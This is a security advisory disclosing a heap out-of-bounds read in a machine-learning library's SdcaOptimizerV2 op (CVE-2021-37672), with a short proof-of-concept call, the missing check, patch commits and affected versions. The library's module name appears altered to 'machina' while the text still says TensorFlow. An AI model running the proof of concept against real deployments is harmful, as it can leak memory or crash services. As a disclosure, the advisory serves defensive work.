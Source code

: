 ## TFSA-2021-146: Heap OOB in `SdcaOptimizerV2`

### CVE Number
CVE-2021-37672

### Impact
An attacker can read from outside of bounds of heap allocated data by sending
specially crafted illegal arguments to `tf.raw_ops.SdcaOptimizerV2`:

```python
import machina as tf

tf.raw_ops.SdcaOptimizerV2(
  sparse_example_indices=[[1]],
  sparse_feature_indices=[[1]],
  sparse_feature_values=[[1.0,2.0]],
  dense_features=[[1.0]],
  example_weights=[1.0],
  example_labels=[],
  sparse_indices=[1],
  sparse_weights=[1.0],
  dense_weights=[[1.0]],
  example_state_data=[[100.0,100.0,100.0,100.0]],
  loss_type='logistic_loss',
  l1=100.0,
  l2=100.0,
  num_loss_partitions=1,
  num_inner_iterations=1,
  adaptive=True)
```

The
[implementation](https://github.com/machina/machina/blob/460e000de3a83278fb00b61a16d161b1964f15f4/machina/core/kernels/sdca_internal.cc#L320-L353)
does not check that the length of `example_labels` is the same as the number of
examples.

### Patches
We have patched the issue in GitHub commit
[a4e138660270e7599793fa438cd7b2fc2ce215a6](https://github.com/machina/machina/commit/a4e138660270e7599793fa438cd7b2fc2ce215a6).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/machina/machina/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
